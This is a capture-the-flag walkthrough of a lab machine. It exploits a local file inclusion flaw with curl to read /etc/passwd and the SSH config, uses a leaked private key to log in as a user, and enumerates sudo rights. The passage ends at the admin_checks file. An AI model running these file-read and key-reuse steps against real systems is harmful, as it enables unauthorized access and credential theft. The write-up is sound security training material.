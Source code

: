 ```
$ curl -s http://dev.team.thm/script.php?page=/etc/passwd |grep sh
root:x:0:0:root:/root:/bin/bash
dale:x:1000:1000:anon,,,:/home/dale:/bin/bash
gyles:x:1001:1001::/home/gyles:/bin/bash
ftpuser:x:1002:1002::/home/ftpuser:/bin/sh
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
```
So now we know in the box, the users root, dale, gyles, and ftpuser can spawn a login shell. We did know about dale and ftpuser but gyles is new to us... Pencil that down as well, it might play its part later on.

Now if we remember we might find dale's private key in the relevant config file... Now this box had http, ftp and ssh services and we know PKI authentication is often set up in ssh, let's try to use the LFI vulnerability we've just found on the sshd config file:

```
$ curl -s http://dev.team.thm/script.php?page=/etc/ssh/sshd_config
```
Right, as we were expecting... Dale left his private key in the relevant file.

### The user Dale
The dale user will give us the user flag, a much expected one after all this work:
```
$ ssh -i dale_id_rsa dale@dev.team.thm
Last login: Mon Jan 18 10:51:32 2021
dale@TEAM:~$ ls
user.txt
dale@TEAM:~$ cat user.txt 
```
One of the first things I do after landing on a user shell is:
1. ls -la to see where I am and what kind of environment we have at hand
```
dale@TEAM:~$ ls -la
total 44
drwxr-xr-x 6 dale dale 4096 Jan 15 22:34 .
drwxr-xr-x 5 root root 4096 Jan 15 20:21 ..
-rw------- 1 dale dale 2549 Jan 21 19:20 .bash_history
-rw-r--r-- 1 dale dale  220 Jan 15 19:52 .bash_logout
-rw-r--r-- 1 dale dale 3771 Jan 15 19:52 .bashrc
drwx------ 2 dale dale 4096 Jan 15 19:54 .cache
drwx------ 3 dale dale 4096 Jan 15 22:20 .gnupg
drwxrwxr-x 3 dale dale 4096 Jan 15 21:29 .local
-rw-r--r-- 1 dale dale  807 Jan 15 19:52 .profile
drwx------ 2 dale dale 4096 Jan 15 20:15 .ssh
-rw-r--r-- 1 dale dale    0 Jan 15 19:55 .sudo_as_admin_successful
-rw-rw-r-- 1 dale dale   17 Jan 15 21:30 user.txt
```
This is gold, is telling us that this user is able to run sudo. There is a load of useful things in that .bash_history that I'm going to skip here for now.
2. I always run sudo -l, always.... Have I said always? always... I think you get it.

```
dale@TEAM:~$ sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```
And this gives us more gold than we could have asked for, the user dale can run the command admin_checks as the user gyles without having to provide the password. Thanks, this could be our way to root... Now what is in that file admin_checks, can we see it?
```
$ ls -la /home/gyles/admin_checks
-rwxr--r-- 1 gyles editors 399 Jan 15 21:52 /home/gyles/admin_checks
```